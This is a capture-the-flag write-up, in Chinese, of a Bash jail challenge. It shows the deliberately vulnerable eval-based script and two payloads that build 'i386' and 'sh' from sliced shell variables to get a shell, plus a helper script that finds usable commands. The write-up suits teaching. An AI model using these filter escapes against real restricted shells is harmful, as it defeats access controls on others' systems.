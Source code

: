 # PowerfulShell

一道 Bash Jail 类型的题，严格限制了可用字符，所有输入会经过字符检查，如果包含禁用字符则退出，合法输入会被 `eval` 执行。

```bash
#!/bin/bash

FORBIDDEN_CHARS="'\";,.%^*?!@#%^&()><\/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"

PowerfulShell() {
    while true; do
        echo -n 'PowerfulShell@hackergame> '
        if ! read input; then
            echo "EOF detected, exiting..."
            break
        fi
        if [[ $input =~ [$FORBIDDEN_CHARS] ]]; then
            echo "Not Powerful Enough :)"
            exit
        else
            eval $input
        fi
    done
}

PowerfulShell
```

关键限制：

- 禁用了所有字母 (`a-z, A-Z`)
- 禁用了常用的通配符 (`*, ?`)
- 禁用了引号 (`', "`)
- 禁用了分隔符 (`;, .`)
- 禁用了数字 `0`

可用字符：

- 空格：用于分隔命令
- `$`：变量引用
- `+-`：算术运算
- `123456789`：数字
- `:`：用于字符串操作
- `=`： 赋值操作
- `[]{}|`：用于命令替换和管道
- `_`：下划线
- `` ` ``：命令替换
- `~`：家目录

## 非预期解

在测试各种可用[Shell 变量 (Shell Variables)](https://www.gnu.org/software/bash/manual/bash.html#Shell-Variables) 和 [特殊参数 (Special Parameters)](https://www.gnu.org/software/bash/manual/bash.html#Special-Parameters)，我发现两个变量的值中包含了被禁用的字符：

- `$-`: `hB`
- `$_`: `input`

`$-` 是 Shell 选项标志 (option flags)，`h` (hashall) 表示记住命令的位置，`B` (braceexpand) 表示启用大括号拓展。

`$_` 是上一个命令的最后一个参数，即 `eval $input` 语句中的 `input`。

那么我们可以通过字符串切片获得 `hBinput` 字符任意数量排列组合的命令，例如：

- `php`: `${_:2:1}${-::1}${_:2:1}`
- `pip`: `${_:2:1}${_::1}${_:2:1}`
- `init`: `${_::2}${_::1}${_:4:1}`
- `h2ph`: `${-::1}2${_:2:1}${-::1}`

可惜靶机环境缺少这些命令，无法直接使用。于是我编写了一个脚本，用来查找本地系统中所有仅由这些可用字符组成的命令，并自动生成对应的构造表达式：

```python
import os
from pathlib import Path

allowed = set("hBinput123456789-")
dash = "hB"  # $-
last = "input"  # $_


def char_to_expr(c: str) -> str:
    if c.isdigit():
        return c
    if c in dash:
        return f"${{-:{dash.index(c) if dash.index(c) != 0 else ''}:1}}"
    if c in last:
        return f"${{_:{last.index(c) if last.index(c) != 0 else ''}:1}}"
    return ""


commands = {
    cmd.name
    for path in os.environ["PATH"].split(":")
    if os.path.exists(path)
    for cmd in Path(path).iterdir()
    if os.access(cmd, os.X_OK) and set(cmd.name) <= allowed
}

for cmd in sorted(commands):
    expr = "".join(char_to_expr(c) for c in cmd)
    print(f"{cmd}:\t{expr}")
```

结果：

```
h2ph:   ${-::1}2${_:2:1}${-::1}
i386:   ${_::1}386
init:   ${_::1}${_:1:1}${_::1}${_:4:1}
ip:     ${_::1}${_:2:1}
php:    ${_:2:1}${-::1}${_:2:1}
tput:   ${_:4:1}${_:2:1}${_:3:1}${_:4:1}
```

`tput` 是一个用于控制终端输出格式的命令，没有什么用。

`i386` 是 `setarch` 命令的符号链接，`setarch` 包含在 [util-linux](https://github.com/util-linux/util-linux) 包中，用于改变程序运行时的系统架构环境。

例如在 AMD64 (x86_64) 系统上，运行 `i386 command` 会使得 `command` 看到的系统架构是 `i686` 而不是 `x86_64`。

更重要的是，根据 man page 的说明，如果不指定要运行的程序，`setarch` 会默认运行 `/bin/sh`：

```
The execution domains currently only affects the output of uname -m.
For example, on an AMD64 system, running setarch i386 program will
cause program to see i686 instead of x86_64 as the machine type. It can
also be used to set various personality options. The default program is
/bin/sh.
```

这意味着直接运行 `i386` 命令就能获得一个完整的 shell 环境：

```
PowerfulShell@hackergame> ${_::1}386
id
uid=1000(players) gid=1000(players) groups=1000(players)
```

另外：那么为什么会有一个 `i386` 链接到 `setarch` 呢？

在源码的 [478-479 行](https://github.com/util-linux/util-linux/blob/4e14b5731efcd703ad13e24362448c87cecb5424/sys-utils/setarch.c#L478-L480)中写道，如果程序名不是 `setarch`，就认为是通过符号链接调用的，这时会把程序名当作目标架构名：

```c
archwrapper = strcmp(program_invocation_short_name, "setarch") != 0;
if (archwrapper) {
    arch = program_invocation_short_name;	/* symlinks to setarch */
```

你可以看到系统中还存在其他许多符号链接：

```
 find /usr/bin -type l -lname '*setarch*' 2>/dev/null
/usr/bin/i386
/usr/bin/linux32
/usr/bin/linux64
/usr/bin/uname26
/usr/bin/x86_64
```

## 预期解

预期解是利用 `$HOME` 变量值 `/players` 中的 `s` 字符，与 `$-` 变量值 `hB` 中的 `h` 组合构造出 `sh`。

`~` 会被扩展为 `$HOME` 变量，所以将 `~` 赋值给符合 Bash 命名规则的新变量，再对它进行切片：

```bash
_1=~                    # /players
_2=$-                   # hB
${_1:7:1}${_2: -2:1}    # sh
```

直接使用 `${~:7:1}` 是不行的，比赛中我这里卡了一下，所以放弃了这种解法。

来看看 AI 朋友的解释：

> 在 bash 中，`${parameter:offset:length}` 语法用于字符串切片，其中 `parameter`:
>
> 可以是变量名（如 `$HOME`, `$PATH`）
> 可以是特殊参数（如 `$@`, `$*`, `$#`, `$-`, `$_`）
> 必须是一个有效的参数引用
>
> `~` 不是一个变量或参数名，它是一个特殊字符：
>
> 作为命令的第一个字符时，bash 会将其扩展为 `$HOME` 的值
> 但在参数扩展语法 `${...}` 中，它不会被识别为一个有效的参数名
>
> 因此需要两步操作：
>
> 先将 `~` 赋值给一个变量，这时 bash 会进行扩展，变量获得 `$HOME` 的值
> 然后对这个变量进行切片操作

